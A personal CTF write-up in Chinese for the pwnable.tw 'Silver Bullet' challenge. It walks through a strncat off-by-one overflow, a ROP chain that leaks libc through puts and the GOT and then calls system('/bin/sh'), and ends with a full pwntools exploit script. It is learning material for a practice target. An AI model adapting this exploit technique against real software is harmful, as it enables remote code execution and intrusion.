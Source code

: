```yaml
---
title: Bullet
date: 2018-03-29 22:23:06
tags:
---
```



注意stack或是struct的layout

漏洞strncat(bullet->desc,buf,MAX - bullet->power); 
这样首先create长度为47的bullet，通过power_up 再增加一个power 此时bullet长度为48
通过strnact 最后还会赋值 null ,因此造成溢出，,power會從\x2f蓋成\x00  
又因为 power = strlen(power) + power 所以最后power为1
杀死gin才会触发return;

再次powerup的时候,由于len和char间没有\0,strncat会连接到len的后面,从而改写len并rop.
注意payload 中不能有null 
由於程式本身有NX保護，必須使用ROP控制程式行為 但許多address因包含null byte，這些address無法被strncat複製到buffer上，因此覆寫main frame的return address時最多只能使用ROP執行某些gadgets。


再做一次 power_up() 就可以修改掉 power 的值並 overflow 到 main() 的 return address

最後把 power 改超大殺死 Werewolf 就可以触发 return ，而我们通过溢出修改 return 处的栈帧达到我们的目的
首先要泄露libc 的基址，从而得到system和 bin/sh 的地址，这里借用puts 函数
然后再触发system 函数 所以需要利用两次漏洞，第一次漏洞利用时返回地址应该是 main 。


内置的ROP怎么用
怎么查看 main的 return address是在overflow之後7個bytes 呢？？？看了半天 使用pattern search 可以算出offset 
终于可以写payload了
但是我输入了\xff\xff\xff 为什么就是打不败呢？？

这是别人的步骤：
step1：创建银弹，长度47
step2：补充银弹，长度1
step3：补充银弹，长度47
 |\xff * 3| + | junk(四字节)| + | put_addr | + | main_addr | + | got表中存储read的位置|
step4：调用beat，打败werewolf
step5：函数返回，调用puts，获得read()函数地址，并据此计算出libc基址，以及system、binsh地址等
step6：函数再次执行main，重复step1、step2
step7：补充银弹，长度47
|\xff * 3| + | junk（四字节）| + | system_addr | + |junk（四字节）| + |bin_sh_addr|
 
\xff 写成 xff 获取read地址的时候处理得也不对
最后一个beat 一直报错？ 干脆直接进入交互模式 在beat好了 
各种乱七八糟的终于成功getshell了 但是直接就EOF 执行不下去了 重新执行一遍 又好了 感觉本地不行到服务器上又可以了，然后服务器有时候还连不上或者程序一开始就运行错 这样子我都会怀疑是不是自己写错了555
不过最后终于成功了 开心开心

最终payload
```
from pwn import *
elf = ELF('./silver_bullet')
# sh = process('silver_bullet')
sh = remote('chall.pwnable.tw', 10103)
libc = ELF('./libc_32.so.6')

def create(content):
    sh.sendline('1')
    sh.sendlineafter(":",content)
    sh.recvuntil('Your choice :')
    

def powerup(content):
    sh.sendline('2')
    sh.sendlineafter(":",content)
    sh.recvuntil('Your choice :')

def  beat():
    sh.sendline('3')
    # sh.recvuntil('!')
    return  sh.recvuntil('Your choice :')

sh.recvuntil('Your choice :')
payload = '\xff'*3+'aaaa'+p32(elf.symbols['puts'])+p32(elf.symbols['main'])+p32(elf.got['read'])
create('a'*47)
powerup('a')
powerup(payload)
tmp = beat()
data = tmp.split('\n')[6]
read_addr = u32(data[0:4])  #这里的处理是参考别人的 
# read_addr = u32(sh.recv()[:4]) 
print  read_addr
read_libc= libc.symbols['read']
libc_base = read_addr-read_libc
sys_addr = libc.symbols['system']+libc_base
bin_addr = next(libc.search('/bin/sh\x00'))+libc_base
create('a'*47)
powerup('a')
payload = '\xff'*3+'aaaa'+p32(sys_addr)+p32(0xdeafbeef)+p32(bin_addr)
powerup(payload)
# beat()
sh.interactive()
# sh.recvuntil('Oh ! You win !!')
```

data = tmp.split('\n')[6] 是按照这样子输出的：
    
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483647
>--------------------------------<
Try to beat it .....
Oh ! You win !!
xxx 地址
menu 

因此地址在第七行T
参考：http://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/
http://look3little.blogspot.sg/2017/03/silverbullet-200.html (十分详细)
http://blog.c0smic.cn/2017/12/10/pwnable_tw_4_6/ 详细
